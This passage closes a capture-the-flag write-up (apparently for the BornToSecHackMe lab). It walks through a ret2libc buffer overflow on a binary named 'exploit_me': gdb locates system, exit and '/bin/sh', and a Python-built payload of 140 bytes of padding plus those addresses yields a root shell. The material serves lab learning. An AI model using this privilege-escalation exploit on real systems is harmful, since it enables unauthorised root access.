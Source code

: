 We need to find the addresses of `system()` and `exit()`, as well as one for `"/bin/sh"`

```
zaz@BornToSecHackMe:~$ gdb -q ./exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) r
Starting program: /home/zaz/exploit_me

Breakpoint 1, 0x080483f7 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:      "/bin/sh"
(gdb)
```

So, system is at `0xb7e6b060`, exit is at `0xb7e5ebe0`, and /bin/sh at `0xb7f8cc58`.

Our payload will be: padding + address of system + address of exit + address of /bin/sh

```
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print("A" * 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")'`
#[......]
# whoami
root
#
```

End of writeup2
